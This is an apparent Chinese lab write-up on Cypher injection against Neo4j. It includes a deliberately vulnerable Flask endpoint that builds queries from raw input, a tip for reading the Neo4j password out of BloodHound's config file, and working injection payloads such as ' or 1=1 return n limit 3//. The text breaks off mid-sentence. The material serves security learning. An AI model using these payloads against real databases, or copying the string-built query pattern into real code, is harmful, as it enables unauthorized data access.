   
能学到一点是一点，下面是我能掌握到的知识，其它的具体实现不贴了，没搞懂。  
  
  
1.cypher注入搭建  
  
neo4j，用过bloodhound的应该都不陌生了  

```
sudo neo4j console 启动cat /home/kali/.config/bloodhound/config.json #自动登录忘记了密码，但是好在bloodhound记着的写个python查询cypher的from flask import Flask, requestfrom neo4j import GraphDatabasedriver = GraphDatabase.driver(&#34;bolt://localhost:7687&#34;, auth=(&#34;neo4j&#34;, &#34;your_password&#34;))app = Flask(__name__)@app.route(&#34;/search&#34;)def search():    name = request.args.get(&#34;name&#34;)    query = f&#34;MATCH (n:User) WHERE n.name = '{name}' RETURN n&#34;    with driver.session() as session:        result = session.run(query)        return &#34;<br>&#34;.join([str(r[&#34;n&#34;]) for r in result])app.run(port=5000)
```

  
开始注入，因为之前插入了一个Alice，名字好记，或者用之前bloodhound的用户名也可以  

```
from neo4j import GraphDatabasedriver = GraphDatabase.driver(&#34;bolt://localhost:7687&#34;, auth=(&#34;neo4j&#34;, &#34;password&#34;))with driver.session() as session:    session.run(&#34;CREATE (u:User {name: 'Alice'})&#34;)    result = session.run(&#34;MATCH (u:User) RETURN u.name AS name&#34;)    for record in result:        print(record[&#34;name&#34;])
```

  
两条语句查看变化  

```
#正常语句：curl &#34;http://localhost:5000/search?name=Alice&#34;#' or 1=1 return n limit 3//curl &#34;http://localhost:5000/search?name=%27%20or%201%3D1%20return%20n%20limit%203%2F%2F&#34;
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YqzMOdDibqZsNW6XC00tekRWUSicMQG053oDzu3lBK9UHT4zYFb9AAicuYUEDTxy7l3GiaLJErjcpA9z6JotMTmh6w/640?wx_fmt=png&from=appmsg "")  
  
  
这里如果采取 
```
' or 1=1 // return n limit 3
```

  
 会直接报错的，最好先构造完整，再注释掉后面重复的语句  
  
那么知道了这点，可以根据靶机的代码结构，尝试构造的语句就是  

```
r#&#34;MATCH (result: {} {{ {}: &#34;{}&#34; }}) RETURN result&#34;#,是键值对，不能有or 1=1这种了即 MATCH (result:User { name: &#34;some_value&#34; }) RETURN result88b6b6c5-a614-486c-9d51-d255f47efb4f&#34;}) return result // 编码后访问，页面正常，就是id=88b6b6c5-a614-486c-9d51-d255f47efb4f的页面，所以结构没问题
```

  
而cypher这种，要是有一种类似于mysql语句这种 
```
;
```

  